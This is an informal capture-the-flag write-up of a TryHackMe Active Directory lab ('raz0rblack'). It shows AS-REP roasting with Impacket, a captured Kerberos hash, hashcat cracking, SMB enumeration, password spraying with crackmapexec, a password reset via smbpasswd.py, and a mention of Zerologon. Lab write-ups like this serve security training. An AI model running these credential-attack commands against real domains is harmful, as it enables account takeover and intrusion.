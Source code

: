 
What is the zip file’s password?

Now we have a user list so let's try it against Kerberos. We will use IMPACKET’s GetNPUsers to brute force Kerebos and the Hash of an existing user from our User List.

GetNPUsers.py -no-pass raz0rblack.thm/ -usersfile users.txt -format hashcat -outputfile hashes.txt

GetNPUsers.py -dc-ip 10.10.150.260 -no-pass raz0rblack.thm/ -u user_list.txt -format hashcat -o hashes.txt

Add the machine IP address to the `/etc/hosts` file to continue this attack, Otherwise, you will not be able to use the Tool
![[Pasted image 20230919175726.png]]


Luckily we got a Kerberos Hash 
```
GetNPUsers.py -no-pass raz0rblack.thm/ -u user_list.txt -format hashcat -o hashes.txt 
```

```
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:c70996e93b9e4c373953a6a58a2451ce$c8cb917b6bf6c429c057a2f0d0984a3062ec4e4141d6e720701e2bde6821b33c2fec0001a18dbb9c3832efc0e8245914a60f9e41fa3e92b584b1552465696d46ceef7914095585ee48231ffe7d167239aef69dd79c72c0347eff2930c8db8e6e5c07ce352e3c0d255dec43dc8c436f550c660b044e892aa1c1ffdef7d958f38dffd8dc6ce6087eaf09b99632429bd322519aaddc2275134fcaab72a40388288bd7c02e14381a977f8fb639f9aa3e35d856da4e4a24a197c4408ddf34b6900c3678a79942160e49cc701edbbae62240b372273a555db14ced6128adabfca6a2606d263e8a03acf02cb8529143b34bbf4e
```

Let's Crack it see what the password 

```
hashcat --help | grep Kerberos
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```
As we know our Kerberos 5 and etype 23 

```
hashcat-6.2.6> .\hashcat.exe -m 18200 -a 0 -D 2 .\hashes4.txt .\rockyou.txt --show
```
![[Pasted image 20230919181040.png]]

Users:
```
dport
iroyce
tvidal
aedwards
cingram
ncassidy
rzaydan
lvetrova
rdelgado
twilliams roastpotatoes
sbradley
clin
```

User
```
twilliams
```
Password
```
roastpotatoes
```

So the 1st thing that come to my mind is Obviously SMB 

```
smbclient -L 10.10.13.82 -U twilliams@raz0rblack.thm 
```
![[Pasted image 20230919182646.png]]

My eyes are kinda set to open the trash 1st don't get me wrong here.


Meanwhile i run the crackmapexec in order to see that if any user has the same password or u can say that we can login another user using the same password but we can't 
![[Pasted image 20230919183129.png]]
But but but but but i think crackmapexec takes only first 10 users so i deleted someusers from the list
![[Pasted image 20230919184335.png]]

So let's reset the password for 
User : sbradely
oldPasswd: roastpotatoes
newPasswd : 

I have to work on my spell mistakes i was stuck for an hour to figure what was wrong
![[Pasted image 20230920120922.png]]
and now a error is at door step i need to get my foot in the door from time to time to get pass this error as well hahahahha.

![[Pasted image 20230920122323.png]]
I think there might be a passwd criteria so that is why i might not able to update the password

Yup i was right 
```
 smbpasswd.py -ts -newpass hackingakatesting raz0rblack.local/sbradley:roastpotatoes@10.10.43.122
```
![[Pasted image 20230920122454.png]]

Will run the Crackmapexec to check if the passwd is change or not
![[Pasted image 20230920122604.png]]
The passwords is changes that means we have 2 user and 2 passwords at our disposal

So let's try to access the trash folder and see if we can get something

```
User: sbradley
Passwd: hackingakatesting
```

```
smbclient \\\\10.10.155.35\\trash -U 'sbradley'
hackingakatesting
```

To download all the files from SMB to our local host
```
rompt off
recurse on
ls
mget *
```
![[Pasted image 20230920123215.png]]

When we open the chat it told us about the vulnerability but i am having seconds thoughts if we should run it or not.
new CVE-2020-1472
![[Pasted image 20230920123707.png]]

